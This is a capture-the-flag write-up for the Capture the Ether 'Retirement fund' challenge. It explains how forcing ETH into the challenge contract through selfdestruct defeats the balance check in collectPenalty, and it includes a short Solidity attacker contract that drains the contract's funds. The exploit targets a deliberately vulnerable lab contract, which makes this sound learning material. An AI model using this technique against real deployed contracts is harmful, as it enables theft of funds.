 # Retirement fund Capture the ether

## Goals

=> I’ve committed 1 ether to the contract below, and I won’t withdraw it until 10 years have passed. If I do withdraw early, 10% of my ether goes to the beneficiary (you!).

I really don’t want you to have 0.1 of my ether, so I’m resolved to leave those funds alone until 10 years from now. Good luck!

### Hints

- None

### Solution

- When you read the `function collectPenalty()` which is the only function we as the player can call, you see the require statement just checks if `startBalance - address(this).balance` is greater than zero, since we can force ETH into the contract this check is not secure and we can just transfer some ETH into the contract (in my case by using a selfdestruct contract) and then we get the whole balance of the contract

### Attacker Contract

```solidity
contract Hack {
    RetirementFundChallenge targetContract;

    constructor(address _targetContract) public {
        targetContract = RetirementFundChallenge(_targetContract);
    }

    function sendEther() public payable {
        selfdestruct(address(targetContract));
    }

    function() external payable {}
}
```
